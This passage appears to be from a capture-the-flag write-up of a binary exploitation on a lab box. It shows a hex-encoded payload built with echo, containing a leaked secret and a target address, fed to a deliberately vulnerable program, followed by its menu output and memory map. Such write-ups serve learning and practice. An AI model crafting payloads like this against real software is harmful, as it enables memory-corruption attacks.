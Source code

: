 ```
2) print session ID
3)login (admin only)
4)change user
5)exit

 action:

```

Now I’ll use that leaked secret to write stage 2:

```

xalvas@calamity:~$ echo -en "\x6d\x61\x09\x01AAAA\xf4\x2f\x00\x80" > /tmp/0xdf

```

I’ll continue:

```

 action: 4

Filename:  /tmp/0xdf
        -----MENU-----
1) leave message to admin
2) print session ID
3)login (admin only)
4)change user
5)exit

 action: 3

this function is problematic on purpose

I'm trying to test some things...and that means get control of the program! 
vulnerable pointer is at bffff5c0
memory information on this binary:

80000000-80002000 r-xp 00000000 08:01 404837     /home/xalvas/app/goodluck
80002000-80003000 r--p 00001000 08:01 404837     /home/xalvas/app/goodluck
80003000-80004000 rw-p 00002000 08:01 404837     /home/xalvas/app/goodluck
80004000-80025000 rw-p 00000000 00:00 0          [heap]
b7e1a000-b7e54000 r-xp 00000000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7e54000-b7e55000 r--p 0003a000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7e55000-b7fca000 r-xp 0003b000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7fca000-b7fcc000 r--p 001af000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7fcc000-b7fcd000 rw-p 001b1000 08:01 142037     /lib/i386-linux-gnu/libc-2.23.so
b7fcd000-b7fd0000 rw-p 00000000 00:00 0 
b7fd6000-b7fd8000 rw-p 00000000 00:00 0 
b7fd8000-b7fda000 r--p 00000000 00:00 0          [vvar]
b7fda000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
b7ffd000-b7ffe000 rw-p 00000000 00:00 0 
b7ffe000-b7fff000 r--p 00022000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
b7fff000-b8000000 rw-p 00023000 08:01 142016     /lib/i386-linux-gnu/ld-2.23.so
bfedf000-c0000000 rw-p 00000000 00:00 0          [stack]

Filename:

```
